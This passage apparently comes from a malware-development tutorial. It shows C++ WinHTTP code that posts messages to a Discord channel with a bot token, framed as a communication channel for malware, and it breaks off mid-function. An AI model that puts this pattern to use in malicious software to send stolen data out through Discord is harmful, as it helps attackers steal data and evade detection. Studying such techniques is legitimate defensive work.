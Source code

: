 ![malware](/assets/images/127/2024-07-02_17-09.png){:class="img-responsive"}    

As you can see, we have obtained a token for the bot. So, according to the [documentation](https://discord.com/developers/docs/resources/channel#create-message), we need the following logic for sending messages:     

```cpp
#define DISCORD_BOT_TOKEN "your discord bot token" // replace with your actual bot token
#define DISCORD_CHANNEL_ID "your discord channel id" // replace with the channel ID where you want to send the message

// function to send a message to discord using the discord Bot API
int sendToDiscord(const char* message) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;
  HINTERNET hRequest = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"discord.com", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
    return 1;
  }

  hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/api/v10/channels/" DISCORD_CHANNEL_ID "/messages", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  // set headers
  if (!WinHttpAddRequestHeaders(hRequest, L"Authorization: Bot " DISCORD_BOT_TOKEN "\r\nContent-Type: application/json\r\n", -1, WINHTTP_ADDREQ_FLAG_ADD)) {
    fprintf(stderr, "WinHttpAddRequestHeaders. error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  // construct JSON payload
  char json_body[1024];
  snprintf(json_body, sizeof(json_body), "{\"content\": \"%s\"}", message);

  // send the request
```